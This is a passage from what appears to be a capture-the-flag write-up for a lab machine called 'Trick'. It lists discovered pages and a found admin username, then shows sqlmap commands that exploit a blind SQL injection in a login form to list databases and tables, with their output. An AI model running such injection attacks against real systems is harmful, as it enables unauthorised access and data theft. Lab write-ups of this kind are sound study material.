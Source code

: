 ```
/assets/js/jquery-te-1.4.0.min.js
/assets/font-awesome/js/all.min.js
/department.php
/topbar.php
/position.php
/employee.php
/payroll.php
```

In http://preprod-payroll.trick.htb/users.php there is this info:

```
name: Administrator
username: Enemigosss
```


### Exploiting a sql injection vulnerability

If we have a look at the forms at http://preprod-payroll.trick.htb/login.php and run sqlmap, we'll see that it is vulnerable to SQL injection - Blind.

We can extract databases:

```bash
sqlmap -r login --dbs
```

Results:

```
available databases [2]:
[*] information_schema
[*] payroll_db
```

Now, we extract tables from payroll_db database:

```bash
sqlmap -r login -D payroll_db --tables
```

Results:

```
Database: payroll_db
[11 tables]
+---------------------+
| position            |
| allowances          |
| attendance          |
| deductions          |
| department          |
| employee            |
| employee_allowances |
| employee_deductions |
| payroll             |
| payroll_items       |
| users               |
+---------------------+
```
